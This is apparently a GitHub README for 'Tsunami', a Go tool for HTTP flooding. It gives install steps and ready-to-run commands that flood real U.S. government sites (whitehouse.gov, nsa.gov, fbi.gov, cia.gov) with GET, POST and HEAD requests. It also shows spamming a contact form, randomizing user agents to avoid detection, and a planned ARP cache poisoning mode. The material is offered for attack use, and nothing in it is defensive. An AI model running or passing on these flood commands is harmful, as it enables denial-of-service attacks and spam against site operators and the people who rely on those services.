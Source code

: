 # Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__
- Realistic User Agent randomization
- Dynamic payloads
- Custom headers

## Table of Contents
1. [Basic Usage](#basic-usage)
2. [Help](#help)
3. [Quick Install](#quick-install)
4. [Examples](#examples)
   - [Low Volume POST Flood Lasting Forever](#low-volume-post-flood-lasting-forever)
   - [High Volume HEAD Flood Lasting For 10 Minutes](#high-volume-head-flood-lasting-for-10-minutes)
   - [Contact Us Form Spam](#contact-us-form-spam)
5. [Dynamic Tokens](#dynamic-tokens)
6. [Todo](#todo)

__This project is a WIP__

## Basic Usage
```bash
./tsunami http://whitehouse.gov -w 100
```

## Help
```bash
./tsunami --help
```

## Quick Install
```bash
git clone https://github.com/antonhibl/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Dynamic Tokens
Dynamic tokens allows you to implement elements of randomness in your requests.
Tokens may be placed in your URL, body, and header values.

There are currently 2 tokens:
- {D} - A random digit
- {l} - A random lowercase letter
- {L} - A random uppercase letter

On every request, every token will be replaced.

Example command:
```bash
./tsunami -w 1 http://nsa.gov/{L}{L}{l}{D}
```
The requests will use URLs similar to these:

```
http://nsa.gov/AYz3
http://nsa.gov/BCv6
http://nsa.gov/NFz7
http://nsa.gov/IPa1
```

## Examples
### Low Volume POST Flood Lasting Forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Anton&password=g1thuB123"
```
### High Volume HEAD Flood Lasting For 10 Minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```
### Contact Us Form Spam
```bash
./tsunami -w 1 "https://zay.li/contact-us" POST "email={l}{l}{l}{l}{l}{l}{l}@gmail.com&message=spamspamspamspam"
```
## Todo
 - ARP Cache Poison Mode
